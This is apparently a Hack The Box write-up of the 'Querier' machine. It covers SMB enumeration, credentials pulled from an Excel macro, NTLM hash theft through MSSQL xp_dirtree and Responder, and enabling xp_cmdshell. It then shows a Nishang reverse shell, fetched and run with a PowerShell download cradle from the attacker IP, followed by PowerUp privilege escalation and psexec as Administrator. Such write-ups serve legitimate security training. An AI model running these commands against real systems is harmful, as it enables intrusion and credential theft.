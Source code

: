 ```yaml
---
title: "Querier"
date: 2024-10-12
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb", "querier"]
---
```


# Querier

# Querier

# Credentials
| Username   | Password         | Hash | Source            |
| ---------- | ---------------- | ---- | ----------------- |
| Reporting  | PcwTWTHRwryjc$c6 |      | SMB               |
| Luis       |                  |      | docProps/core.xml |
| msssql-svc | corporate568     |      | sql-responder     |

# Enumeration
## Nmap
# TCP
```sh
PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763

| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# UDP
```sh
PORT      STATE         SERVICE      VERSION
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    closed        dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   closed        msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown
```

## SMB
![[/assets/images/querier1.png]]

![[/assets/images/querier2.png]]
![[/assets/images/querier3.png]]
## Currency Volume Report.xlsm 
Unzip the file 

```sh
unzip 'Currency Volume Report.xlsm'
```

![[/assets/images/querier4.png]]

Macros are usually stored at `xl/vbaProject.bin`. Use strings on it to find all readable strings.

```sh
strings x1/vbaProject.bin
```

![[/assets/images/querier5.png]]

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

# SQL

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

```sh
impacket-mssqlclient reporting@10.10.10.125 -windows-auth
```

![[/assets/images/querier6.png]]

We don't have SA privileges. Though we can't execute commands using `xp_cmdshell` we can steal hashes of the SQL service account by using `xp_dirtree` or `xp_fileexist`.

```sql
exec xp_dirtree '\\10.10.14.42\share\file'
```

and fire up Responder locally.
```sh
sudo responder -I tun0
```


![[/assets/images/querier7.png]]

# Cracking the hash
![[/assets/images/querier8.png]]

# Foothold
using the creds `mssql-svc : corporate568` we can now login to MSSQL. Let's check if we have SA permissions now.
```sh
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```

![[/assets/images/querier9.png]]

enable `xp_cmdshell`
```sql
enable_xp_cmdshell
xp_cmdshell whoami
```

![[/assets/images/querier10.png]]

Now we can execute a TCP reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script and add this line to the end of it. 

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 4444
```

![[/assets/images/querier11.png]]

Run a simple HTTP server and execute it using powershell.
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.42/Invoke-PowerShellTcp.ps1\')
```

![[/assets/images/querier12.png]]

# Privilege Escalation
After getting a shell [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1) is used to enumerate further. Download the script and execute it on the server uinsg `Invoke-AllChecks`

```powershell
wget https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1

python3 -m http.server 80
iex(new-object.net.webclient).downloadstring("http://10.10.14.42/PowerUp.ps1")
```

![[/assets/images/querier13.png]]![[/assets/images/querier14.png]]

Login as admin
```sh
impacket-psexec Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```

![[/assets/images/querier15.png]]
